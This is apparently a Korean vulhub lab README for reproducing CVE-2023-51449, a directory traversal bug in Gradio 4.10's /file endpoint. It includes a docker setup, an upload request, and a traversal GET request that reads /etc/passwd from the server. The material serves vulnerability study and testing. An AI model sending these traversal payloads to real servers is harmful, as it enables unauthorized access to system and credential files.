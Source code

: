 # Gradio /file Interface Directory Traversal (CVE-2023-51449)

디렉터리 트래버설(Directory Traversal) 및 서버 사이드 요청 위조(SSRF)

[中文版本(Chinese version)](https://github.com/vulhub/vulhub/blob/master/gradio/CVE-2023-51449/README.zh-cn.md)

- **Gradio**는 사용자가 프론트트엔드 코드를 작성하지 않고도 머신 러닝 모델을 위한 시각적 웹 인터페이스를 빠르게 구축할 수 있는 Python 라이브러리이다.

- Gradio 4.11 이하 버전에서는 인증이 활성화되지 않은 경우, 공격자가 파일 경로만 알고 있다면 공개 URL을 통해 Gradio 애플리케이션을 실행하는 서버에 존재하는 임의의 파일에 액세스할 수 있다.

참고 문헌

- [gradio-app/gradio#6833](https://github.com/gradio-app/gradio/pull/6833)
- [gradio-app/Make the `/file` secure against file traversal attacks and SSRF](https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2)

## 환경 설정 (Environment Setup)

Gradio 4.10.0으로 빌드된 애플리케이션을 시작하기 위해 다음 명령을 실행해야 한다.

```
docker compose up -d
```

서버가 시작되면 기본적으로 인증(Authentication)이 비활성화되어 있다.
애플리케이션은 브라우저에서 `http://[your IP]:7680` 주소로 접속할 수 있다.

## 취약점 재현 (Vulnerability Reproduction)

### 1. 파일 업로드 및 파일 경로 확보

업로드 인터페이스를 사용하여 파일을 서버에 업로드하고, 업로드된 파일의 접근 가능한 경로를 확인 및 획득한다.

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--
```

![](3.png)

### 2. 디렉터리 트래버설을 이용한 민감 파일 접근

접근 가능한 파일 경로가 확보되면 `/file` 인터페이스와 디렉터리 트래버설을 사용하여 `/etc/passwd`와 같은 서버 내 민감 파일을 읽을 수 있다.

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip
```

![](4.png)

## 요약

- 인증이 비활성화된 상태에서 `/file` 엔드포인트가 디렉터리 트래버설 공격에 취약하다.
  업로드된 파일 경로를 활용하여 서버 내 임의 파일에 접근할 수 있다.
  Gradio 4.11 이상 버전에서는 해당 취약점이 패치되었다.
